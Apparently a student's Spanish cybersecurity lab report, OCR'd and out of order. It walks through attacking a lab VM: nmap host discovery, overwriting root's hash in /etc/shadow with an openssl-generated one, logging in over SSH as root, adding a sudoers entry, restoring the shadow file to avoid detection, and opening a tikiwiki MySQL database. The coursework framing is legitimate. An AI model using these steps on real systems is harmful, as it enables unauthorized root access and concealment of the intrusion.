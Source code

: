 		sudo cp [dir]/etc/shadow ./shadow_copy

		d. Crear contraseña cifrada

		openssl passwd -1 [SALT] [contraseña_nueva]

		1: MD5 de 22 caracteres

		Salida:
			$1$[SALT_cifrado]$[contraseña_cifrada]

		e. Cambiar la contraseña de root en archivo shadow original

		f. Entrar como root en la maquina
		
		ssh root@[ip] // [contraseña_nueva]

		g. Añadir usuario "user" a fichero "sudoers"

		sudo visudo -> user ALL:(ALL) ALL

		h. Salir y restaurar el archivo "shadow" original copiado
			por si el usuario quisiera acceder a root. Si falla
			la contraseña, nos podrían pillar antes

		sudo cp ./shadow_copy [dir]/etc/shadow

		i. Entrar como "user" en la maquina y cambiar los permisos

		chmod [0-70-70-7] [fichero]


7 mysql
entramos con la cuenta con los permisos dentro del ssh
ssh admin@10.0.2.5
dentro simplemente hacemos mysql tikiwiki y ya estamos dentro del mysql
con el show tables vemos las tablas que hay dentro del mysql

Memoria Practica 2 - Ciberseguridad

rango_red = 10.0.2.0/25
ip_atacante = 10.0.2.5
ip_atacado = 10.0.2.4

1. Averiguar direccion IP de una maquina
	Primero averiguamos el ip de nuestra máquina con el comando ip a.
	Una vez obtenemos nuestra ip, escaneamos en el rando de direcciones.

	nmap [rango_red] -sn	-> escanea las IPs de la red
	hostname -I		-> devuelve la IP de la maquina local

	s: scan, n: no escanea los puertos, I: IP

	Salida:
		Nmap scan report for [ip]
		Host is up ([tiempo_latencia]s latency)
		...

	La IP X.X.X.1 es el gateway y la IP mostrada con hostname es la local
	Si solo hay 3 salidas, la restante es la maquina atacada
